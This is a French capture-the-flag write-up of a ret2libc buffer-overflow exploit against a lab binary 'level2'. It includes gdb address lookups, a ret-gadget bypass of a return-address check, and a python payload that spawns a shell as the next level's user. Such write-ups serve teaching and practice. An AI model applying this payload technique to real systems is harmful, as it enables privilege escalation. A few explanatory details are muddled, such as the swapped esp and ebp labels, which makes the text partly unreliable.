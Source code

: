 # Ret2libc Exploitation

En décompilant l'exécutable , on remarque qu'il y a un appel à `get` donc faille d'un **buffer overflow** possible. En revanche, on remarque que le programme fait un test sur l'adresse de retour et vérifie qu'elle ne se situe pas dans la stack.
```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```
On peut donc profiter d'une faille `Ret2libc`, mais en s'assurant que l'adresse de retour ne pointe pas directement sur la fonction `system` qui, elle, se situe dans la stack.

Pour cela, on peut simplement remplacer l'adresse de retour dans la stack par l'adresse de retour de la fonction `p`.

Nous avons donc besoin de 3 adresses :
- `system`
- `"/bin/sh"`
- retour de `p`

On utilise `gdb` pour les determiner :
```
> gdb level2
```

---

**system**
```
> (gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
```
0xb7e6b060
```

**"/bin/sh"**
```
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```
```
0xb7f8cc58
```

**Retour de p**
```
> (gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	    push   %ebp
   0x080484d5 <+1>:	    mov    %esp,%ebp
   0x080484d7 <+3>:	    sub    $0x68,%esp
   0x080484da <+6>:	    mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
```
```
0x0804853e
```

---

Pour trouver la taille du buffer, il nous suffit de connaitre l'adresse de `esp` et l'adresse de `eip`. Ainsi, nous determinerons la taille du buffer par cette équation :
```
buffer = adresse_esp - adresse_ebp
```
On détermine les adresse avec `gdb` :

---

**esp**
```
> (gdb) x $ebp
0xbffff6b0
```
```
0xbffff6b0
```

**ebp**
```
> (gdb) x $esp
0xbffff718
```
```
0xbffff718
```

---

On remplace dans notre équation :
```
buffer = adresse_esp - adresse_ebp
       = 0xbffff718 - 0xbffff6b0
       = 0x50
       = 80 (base 10)
```
Nous devons donc remplir notre buffer avec `80` caractères.

On assemble les adresses avec une commande `python` qu'on redirige dans un fichier :
```
> python -c 'print "A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "OSEF" + "\x58\xcc\xf8\xb7"' > /tmp/command
```
Enfin on redirige le contenu de ce fichier dans l'exécutable `level2` :
```
> cat /tmp/command - | ./level2
```
Nous avons ouvert un shell avec les droits de l'utilisateur `level3`
